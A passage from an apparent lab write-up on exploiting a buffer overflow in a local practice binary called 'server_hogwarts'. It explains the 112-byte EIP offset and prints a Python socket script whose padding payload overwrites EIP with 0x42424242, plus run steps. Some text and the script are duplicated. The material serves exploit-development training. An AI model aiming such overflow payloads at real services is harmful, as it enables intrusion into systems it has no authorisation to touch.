

4.3 Buffer overflow: Controlling EIP
EIP offset is the exact value that gives us the information that how many bytes will fill the buffer and overflow into the return address (EIP).
Controlling the EIP is a very crucial part of buffer overflow attacks because EIP is the register that will ultimately point to our malicious code so that it could be executed. From the previous point we know the exact offset value is 112.
On the Kali Machine let's create a Python script, to verify that we can control the wrote a Python script, to verify that we can control the EIP. .
Script
#!/usr/bin/python
import sys,socket
shellcode = 'A'*112 + 'B'*4 + "\x90"*32 #if done correctly, you should see the EIP filled with 42424242
try:
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(('127.0.0.1',9898))
s.send((shellcode))
s.close()
except:
print("Error connecting to server")
sys.exit()
import sys,socket
shellcode = 'A'*112 + 'B'*4 + "\x90"*32 #if done correctly, you should see the EIP filled with 42424242
try:
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(('127.0.0.1',9898))
s.send((shellcode))
s.close()
except:
print("Error connecting to server")
sys.exit()
1. Create a file called “overwritingEIP.py” with the script and make it executable.
$nano overwritingEIP.py
$chmod +x overwritingEIP.py
$chmod +x overwritingEIP.py
2. Run the “server_hogwarts” in a terminal.
$./server_hogwarts
3. Run the payload created in another terminal.
$./overwritingEIP.py
4. As we can see in the above image, the EIP register has “42424242”. The hexadecimal value of ASCII character “B” is 0x42. So, it is confirmed at this point that we can control the EIP register.
Output:

Note: After segmentation fault, the program is also killed. So, we have to run the server program every time it fails as in point 2.
Warning: Don't close your “gdb” program.